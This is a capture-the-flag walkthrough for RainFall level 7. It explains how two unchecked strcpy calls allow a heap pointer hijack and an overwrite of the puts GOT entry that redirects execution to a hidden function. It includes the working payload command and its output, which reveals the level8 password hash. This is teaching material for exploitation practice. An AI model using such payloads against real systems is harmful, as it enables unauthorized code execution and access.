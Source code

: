 # Level 7 Walkthrough – Detailed Explanation

## 🎯 Goal
Exploit **dual heap buffer overflows** to hijack a pointer, overwrite a **GOT entry**, and reveal the password for level8.

---

## Step 1: What the Program Does

From the decompiled C code:

```c
int32_t* var1 = malloc(8);
*var1 = 1;
var1[1] = malloc(8);        // buffer1

int32_t* var2 = malloc(8);
*var2 = 2;
var2[1] = malloc(8);        // buffer2

strcpy(var1[1], argv[1]);   // Vulnerability 1
strcpy(var2[1], argv[2]);   // Vulnerability 2

fgets(&c, 0x44, fopen("/home/user/level8/.pass", "r"));
puts("~~");
```

**Explanation in simple terms:**

1. The program allocates **two small heap structs** (`var1` and `var2`) with **two fields each**:
   - `field1` stores a number.
   - `field2` points to another heap allocation (buffer for user input).  

2. It copies **user input** into these buffers using `strcpy()` **without checking length** → **heap overflow vulnerability**.  

3. The program then reads the password from a file into a global variable and prints a static message `"~~"`. Normally, the user never sees the password.

---

## Step 2: Understanding the Heap Layout

### Memory layout in order of allocation:

```
Heap:
[ buffer1 ] → 8 bytes (for argv[1])
[ var2 struct ] → 8 bytes (field1 + field2)
[ buffer2 ] → 8 bytes (for argv[2])
```

- **Distance from `buffer1` → `var2->field2` pointer**: ~20 bytes  
  - 8 bytes of `buffer1` + 8 bytes of `var2` struct + heap metadata/alignment → ~20 bytes  
  - This is **why overflowing `buffer1` by 20 bytes allows you to overwrite `var2->field2` pointer**.

- **Distance from `buffer2` pointer (`var2->field2`) → arbitrary memory**: Once we control `var2->field2`, we can write anywhere using the second strcpy.

---

## Step 3: The Vulnerability

### Dual Heap Overflow Steps:

1. **First `strcpy` (`buffer1`)**:
   - Overflows 8-byte buffer.
   - Overwrites `var2->field2` pointer (the pointer controlling `buffer2`).  

2. **Second `strcpy` (`buffer2`)**:
   - Writes to memory **where `var2->field2` points**, because we control it.
   - This allows us to overwrite **critical addresses**, like **GOT entries**.

---

## Step 4: Target – GOT Entry

- **GOT (Global Offset Table)** stores addresses of library functions.
- Overwriting a GOT entry allows **redirecting function calls**.

Example targets:

| Function | GOT Address | Purpose |
|----------|------------|---------|
| `puts`   | 0x8049928  | Overwrite to redirect execution |
| `fopen`  | 0x804993c  | Could also redirect |
| `m()`    | 0x80484f4  | Hidden function to print password |

---

## Step 5: Crafting the Exploit

**Strategy**:

1. Overflow `buffer1` to change `var2->field2` pointer → make it point to `puts@GOT`.  
2. Use `strcpy` on `buffer2` to **overwrite `puts@GOT`** → make it point to `m()` function.  
3. When program calls `puts()`, it will instead jump to `m()` → prints the password.  

**Command**:

```bash
./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') \
         $(python -c 'print "\xf4\x84\x04\x08"')
```

- `"A"*20` → fill padding up to `var2->field2`.
- `"\x28\x99\x04\x08"` → new pointer value → points to `puts@GOT`.
- `"\xf4\x84\x04\x08"` → overwrite `puts@GOT` → points to `m()`.

---

## Step 6: What Happens in Memory

**Before overflow:**

```
buffer1: [ .... ] 8 bytes
var2 struct: [ field1=2 | field2 → buffer2 ]
buffer2: [ .... ] 8 bytes
```

**After first overflow (buffer1):**

```
buffer1: [AAAAAAAAAAAAAAAAAAAA] (20 bytes)
var2->field2 pointer: overwritten → points to puts@GOT
```

**After second strcpy (buffer2):**

```
Memory at puts@GOT: overwritten → points to m()
```

**Program flow:**

- Program calls `puts()` → instead jumps to `m()`  
- `m()` prints the level8 password.

---

## Step 7: Why This Exploit Works

1. **Heap overflow** allows you to overwrite **adjacent heap structures**.  
2. **Pointer hijacking** → control where the second strcpy writes.  
3. **GOT overwrite** → redirect normal program execution.  
4. **Execution redirect** → when `puts()` is called, program jumps to your target function (`m()`).  
5. **Precision required**:
   - Correct **offset (20 bytes)** to reach pointer.
   - **Little-endian format** for addresses.

---

## Step 8: Result

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20 + "\x28\x99\x04\x08"') \
                        $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

- **Password revealed**: `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9`  
- **Access level8**:

```bash
su level8
Password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

---

## ✅ Summary (Simple Explanation)

- First buffer overflow → hijacks pointer.  
- Second buffer overflow → writes to controlled location (GOT).  
- GOT overwrite → function call is redirected.  
- Password printed → arbitrary code execution achieved.
